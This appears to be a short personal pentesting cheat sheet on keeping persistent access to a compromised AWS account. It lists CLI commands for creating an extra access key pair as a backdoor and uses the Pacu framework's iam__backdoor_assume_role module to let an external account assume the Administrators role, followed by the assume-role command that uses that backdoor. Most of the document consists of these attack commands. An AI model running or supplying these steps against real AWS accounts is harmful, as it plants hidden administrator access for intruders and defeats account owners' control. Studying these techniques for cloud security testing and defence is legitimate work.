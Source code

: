 # Persistence
# Index
* [Backdoor account](#Authentication)
* [Trust relationships](#Trust relationships)


## Backdoor account
- Each account can have two access keys
#### List access keys
```
aws iam list-access-keys --user-name <username>
```

#### Create second pair of access keys
```
aws iam create-access-key --user-name <username>
```

## Trust relationships
- Can create a trust relationship with an entity OUTSIDE of an AWS account. (cross account persistence)

#### Run pacu
```
sudo python3 cli.py
import_keys <AWS PROFILE NAME>
```

#### Run the enumeration modules
```
run iam__enum_users_roles_policies_groups
run iam__enum_permissions
whoami
```

#### Find ARN of external AWS account
```
sudo aws sts get-caller-identity
```

#### Backdoor the role
-  Pacu has a module that backdoors IAM roles called iam__backdoor_assume_role
```
run iam__backdoor_assume_role
run iam__backdoor_assume_role --role-names Administrators --user-arns <full ARN of your external account>
```

#### Use the external AWS account backdoor
- Not sure how to get ARN of the policy
```
sudo aws sts assume-role --role-arn <Full ARN of Backdoored Role> --role-session-name persist --profile <personal AWS account profile>
```
